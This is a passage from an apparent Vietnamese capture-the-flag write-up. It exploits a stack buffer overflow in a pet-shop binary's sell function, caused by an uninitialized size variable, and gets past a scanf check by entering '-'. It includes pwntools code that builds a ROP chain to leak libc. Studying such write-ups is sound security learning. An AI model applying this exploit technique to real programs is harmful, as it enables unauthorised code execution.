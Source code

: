 Với việc cho nhập `pet_name` tối đa tới tận 1024 byte. Mình thoáng nghĩ có điều gì không ổn tại đây. Mình dùng `cyclic` tạo thử 1020 byte để xem input này có ảnh hưởng gì tới các hàm khác không. 

Thử vào hàm `sell`, đi tới hàm nhập `reason_size` thì ta thấy `reason_size` đang có giá trị rác `jaaf` rất giống trong `input` tạo bởi `cyclic`. 

<img src="./11.png">

Từ đây, ta hoàn toàn điều khiển được `reason_size` và trigger được bug BOF. Nguyên nhân dẫn tới lỗi này là `reason_size` không được initialize, vậy nên nó có thể nhận giá trị rác từ input nào đó. 

```c
int __fastcall sell(char *a1)
{
    int reason_size; // [rsp+18h] [rbp-208h] BYREF
    char reason[512]; // [rsp+20h] [rbp-200h] BYREF

    if ( (unsigned int)__isoc99_scanf("%d", &reason_size) == 1 && (reason_size <= 0 || reason_size > 511) )
    {
        return puts("Invalid size!");
    }

    fgets(reason, reason_size, stdin);
}
```

Chưa hết, ta phải bypass được điều kiện check ở trên. Có một trick với hàm `scanf` là nếu như ta nhập input không đúng với định dạng fmt thì hàm sẽ trả về 0 và không làm thay đổi giá trị của đối số. 

Vậy input mình nhập vào đơn giản chỉ là `-` sẽ bypass được đoạn check ở trên. 

```python
def sell(pet_list_idx, reason): 
    payload = ("sell " + str(pet_list_idx)).encode("utf8")
    sla(b"You    --> ", payload)
    sla(b"You    --> ", b"-")
    sla(b"You    --> ", reason)
```

### Build ropchain to leak libc 

Sau khi dựa trên stack, ta tính được offset để overwrite retaddr là 0x208 byte. Tới đây thì chúng ta dễ dàng build ropchain để leak libc.  

```python
poprdi   = binary_base + 0x1a13
ret      = poprdi + 1
putsgot  = binary_base + exe.got["puts"]
putsplt  = binary_base + exe.plt["puts"]
backaddr = binary_base + exe.symbols["main"]
payload1 = flat(b"A" * 0x208, poprdi, putsgot, putsplt, backaddr)

sell(0, payload1)

ru(b"reasonable!\n")

libc_leak = u64(p.recv(6) + b"\x00\x00")
libc_base = libc_leak - libc.symbols["puts"]
log.info(f"libc leak = {hex(libc_leak)}")
log.info(f"libc base = {hex(libc_base)}")
```
